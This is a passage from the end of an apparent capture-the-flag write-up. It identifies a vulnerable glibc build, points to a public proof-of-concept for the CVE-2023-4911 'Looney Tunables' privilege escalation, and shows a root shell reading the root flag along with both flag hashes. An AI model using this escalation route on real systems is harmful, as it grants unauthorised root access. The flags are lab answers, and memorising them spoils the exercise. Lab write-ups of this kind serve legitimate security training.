This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```

Okay, when checking in the internet, we can see it is vulnerable to `CVE-2023-4911`, or "Looney Tunables".

Let's use this PoC, just follow the orders on the README, https://github.com/NishanthAnand21/CVE-2023-4911-PoC.

it takes some time, but it works at the end. (5~20 minutes)



```bash
# cat /root/root.txt
94d527fe58a530af59e64f4f0ca0ca19
```


**User Flag:*****`9d6bcf11d1367177ee1e7c1788f83200`***

**Root Flag:*****`94d527fe58a530af59e64f4f0ca0ca19`***
